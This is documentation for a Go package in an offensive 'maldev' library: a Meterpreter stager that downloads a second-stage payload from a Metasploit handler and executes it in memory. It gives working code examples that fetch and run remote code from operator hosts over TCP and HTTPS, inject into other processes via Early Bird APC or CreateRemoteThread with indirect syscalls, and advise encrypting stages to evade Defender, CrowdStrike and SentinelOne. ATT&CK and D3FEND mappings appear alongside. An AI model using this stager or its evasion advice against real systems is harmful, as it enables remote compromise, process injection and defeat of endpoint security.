

# Meterpreter stager

[← c2 index](README.md) · [docs/index](../../index.md)

## TL;DR

Pulls a second-stage Meterpreter payload from a Metasploit
`multi/handler` over TCP / HTTP / HTTPS and executes it in-process.
`Config.Injector` overrides the default self-injection with any
[`inject.Injector`](../injection/README.md) — Early Bird APC into a
sacrificial child, indirect syscalls, decorator middleware, automatic
fallback, the lot. Linux uses an ELF wrapper that requires the live
socket fd; setting `Injector` on Linux is rejected.

## Primer

Metasploit's Meterpreter is the canonical post-exploitation toolkit.
It is too big to embed (~hundreds of KB), so attacks split it in two:
a **stager** small enough to fit in a shellcode payload or a Go
binary, and a **stage** (the full Meterpreter DLL or ELF) fetched at
runtime over the network. The stager opens a connection to the
handler, reads the stage as raw bytes, copies it into executable
memory, and jumps to the entry point.

Two parts of that flow are worth abstracting. First, the **fetch**
is identical across Meterpreter implementations — connect, read four
length bytes, read the stage, hand the buffer to the executor.
Second, the **execute** is the most variable: a real engagement uses
the inject package's full surface (Early Bird APC, indirect syscalls,
XOR encoding, CPU delay) to defeat host-side telemetry. The package
exposes a clean `Config.Injector` knob so the same stager works
across stealth tiers.

The HTTP / HTTPS variants implement Metasploit's URI-checksum format
expected by the handler (`/<8 random chars>` with a checksum byte).
HTTPS supports `InsecureSkipVerify` for self-signed handlers and a
configurable timeout.

## How it works



## API Reference

Package: `github.com/oioio-space/maldev/c2/meterpreter`. Stager
that fetches and executes the second-stage `metsrv` payload from a
Metasploit handler. Three transports — TCP raw, HTTP poll, HTTPS poll.

### `type meterpreter.Transport int`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/c2/meterpreter#Transport)

Closed-set enum: `TCP`, `HTTP`, `HTTPS`. Selects the wire protocol
between the stager and the Metasploit handler.

**Side effects:** pure data.

**OPSEC:** TCP raw triggers the most-fingerprinted Cobalt Strike /
Meterpreter network signatures. HTTPS with a credible cert profile
is the standard "blend with web traffic" choice. HTTP is mostly
useful in lab / over-Tor setups.

**Platform:** cross-platform.

### `type meterpreter.Config struct`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/c2/meterpreter#Config)

```go
type Config struct {
    Transport   Transport
    Host        string
    Port        string
    Timeout     time.Duration
    TLSInsecure bool            // HTTPS only — disables cert validation
    Injector    inject.Injector // optional, Windows-only — overrides default executor
}
```

**Side effects:** pure data.

**OPSEC:** `TLSInsecure: true` against a real handler triggers
TLS-anomaly rules in any monitored environment (no SNI mismatch
check, no cert-pin). Use only for lab Kali or with known
self-signed handler certificates.

**Required privileges:** depend on `Injector` choice. Default
executor (no Injector) runs the stage in the calling goroutine.

**Platform:** cross-platform; `Injector` field is Windows-only.

### `meterpreter.NewStager(cfg *Config) *Stager`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/c2/meterpreter#NewStager)

Construct a stager from the config.

**Parameters:** `cfg` non-nil; required fields are `Transport` +
`Host` + `Port`.

**Returns:** `*Stager` (never nil).

**Side effects:** none until `Stage` runs.

**OPSEC:** silent (no I/O at construction).

**Required privileges:** none for construction.

**Platform:** cross-platform.

### `(*Stager).Stage(ctx context.Context) error`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/c2/meterpreter#Stager.Stage)

Fetch and execute the stage.

**Parameters:** `ctx` for cancellation of the fetch + connection.

**Returns:** error from connect / fetch / inject paths. On Linux,
returns `ErrInjectorOnLinux` if `cfg.Injector != nil` (the
Injector type is Windows-only).

**Side effects:** opens a network connection to `cfg.Host:cfg.Port`,
downloads the metsrv stage (~750KB for x64 reverse_https), then
either spawns a thread on the bytes (default executor) or routes
through `cfg.Injector` (Windows; can target a remote PID, use
indirect syscalls, etc.).

**OPSEC:** the stage download is the loudest network signal — any
Suricata / Snort ruleset with metsrv signatures alerts on the
fetch. The `Injector` choice determines the in-process footprint
(see the executor's own OPSEC bullet).

**Required privileges:** depend on the `Injector`. Default
self-thread executor: unprivileged. Cross-process executor:
typically `SeDebugPrivilege` for cross-session targets.

**Platform:** cross-platform; `Injector` field Windows-only.

## Examples

### Simple

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/meterpreter"
)

cfg := &meterpreter.Config{
    Transport: meterpreter.TCP,
    Host:      "192.168.1.10",
    Port:      "4444",
    Timeout:   30 * time.Second,
}
_ = meterpreter.NewStager(cfg).Stage(context.Background())
```

### Composed (HTTPS + InsecureSkipVerify)

```go
cfg := &meterpreter.Config{
    Transport:   meterpreter.HTTPS,
    Host:        "operator.example",
    Port:        "8443",
    Timeout:     30 * time.Second,
    TLSInsecure: true,
}
_ = meterpreter.NewStager(cfg).Stage(context.Background())
```

### Advanced (custom injector — Early Bird APC + indirect syscalls + XOR)

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/meterpreter"
    "github.com/oioio-space/maldev/inject"
)

inj, _ := inject.Build().
    Method(inject.MethodEarlyBirdAPC).
    ProcessPath(`C:\Windows\System32\notepad.exe`).
    IndirectSyscalls().
    WithFallback().
    Use(inject.WithXORKey(0x41)).
    Use(inject.WithCPUDelayConfig(inject.CPUDelayConfig{MaxIterations: 10_000_000})).
    Create()

cfg := &meterpreter.Config{
    Transport: meterpreter.TCP,
    Host:      "192.168.1.10",
    Port:      "4444",
    Timeout:   30 * time.Second,
    Injector:  inj,
}
_ = meterpreter.NewStager(cfg).Stage(context.Background())
```

### Complex (remote inject into existing PID + HTTPS staging)

```go
import "github.com/oioio-space/maldev/inject"

inj, _ := inject.Build().
    Method(inject.MethodCreateRemoteThread).
    TargetPID(1234).
    IndirectSyscalls().
    WithFallback().
    Create()

cfg := &meterpreter.Config{
    Transport:   meterpreter.HTTPS,
    Host:        "operator.example",
    Port:        "8443",
    Timeout:     30 * time.Second,
    TLSInsecure: true,
    Injector:    inj,
}
_ = meterpreter.NewStager(cfg).Stage(context.Background())
```

See `ExampleNewStager` in
[`meterpreter_example_test.go`](../../../c2/meterpreter/meterpreter_example_test.go).

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Meterpreter wire format | Snort / Suricata signatures match all three transport types out of the box |
| MSF URI checksum pattern (`/<8 chars>` GET) | NIDS hunt rules |
| Stage in-memory after decrypt | Defender / MDE memory scan — Meterpreter's reflective DLL has known signatures |
| `CreateThread` at a non-image start address | Kernel thread-create callback — defeated by switching to `MethodEarlyBirdAPC` or similar via `Config.Injector` |

**D3FEND counters:**

- [D3-OCA](https://d3fend.mitre.org/technique/d3f:OutboundConnectionAnalysis/)
  — outbound-connection profiling.
- [D3-FCR](https://d3fend.mitre.org/technique/d3f:FileContentRules/) —
  YARA rules on the unpacked stage.

**Hardening for the operator:** always set `Config.Injector` for
Windows engagements; combine with `c2/transport` uTLS + cert pinning;
use a payload encryptor (Veil, ScareCrow, or `crypto.EncryptAESGCM`
on a custom stage) so the in-memory bytes do not match Meterpreter's
public reflective-DLL signature.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1059](https://attack.mitre.org/techniques/T1059/) | Command and Scripting Interpreter | post-stage Meterpreter shell | D3-PSA |
| [T1055](https://attack.mitre.org/techniques/T1055/) | Process Injection | when `Config.Injector` is set | D3-PSA |
| [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | Application Layer Protocol: Web Protocols | HTTP/HTTPS variants | D3-NTA |
| [T1095](https://attack.mitre.org/techniques/T1095/) | Non-Application Layer Protocol | TCP variant | D3-NTA |

## Limitations

- **Linux Injector unsupported.** The ELF wrapper protocol needs the
  live socket fd; `Stage` returns an error if `cfg.Injector != nil`
  on Linux.
- **Public stage signatures.** Defender, CrowdStrike, and SentinelOne
  fingerprint the unmodified Meterpreter reflective DLL. Custom-built
  stages (or `crypto`-wrapped stages your handler decrypts) are
  required against modern AV.
- **Self-injection default is loud.** `VirtualAlloc + CreateThread`
  is the textbook process-injection chain. Always set
  `Config.Injector` against any non-trivial defender.
- **Single connection.** No reconnect logic — if the stage download
  fails, the stager exits. Wrap in a higher-level retry loop or use
  `c2/shell` with a custom protocol if reconnect is needed.

## See also

- [Transport](transport.md) — pluggable wire layer alternative.
- [`inject`](../injection/README.md) — primary `Config.Injector`
  source.
- [Reverse shell](reverse-shell.md) — when full Meterpreter is
  overkill.
- [HD Moore et al., *Metasploit Unleashed: Meterpreter*](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)
  — primer on the protocol.
